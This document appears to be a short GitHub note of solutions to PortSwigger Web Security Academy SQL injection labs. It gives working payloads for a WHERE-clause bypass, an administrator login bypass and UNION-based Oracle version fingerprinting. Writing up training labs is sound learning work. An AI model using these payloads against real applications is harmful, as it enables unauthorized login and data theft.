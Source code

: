 # SQL injection

 * [sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

>**Q. SELECT * FROM products WHERE category = 'Gifts' AND released = 1 **

```sh
'+OR+1=1--
```

### Lab2: SQL injection vulnerability allowing login bypass
>**Q. To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. **

```sh
administrator'--
```
### Lab3: SQL injection attack, querying the database type and version on Oracle
```sh
'+UNION+SELECT+'abc','def'+FROM+dual--
```
```sh
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
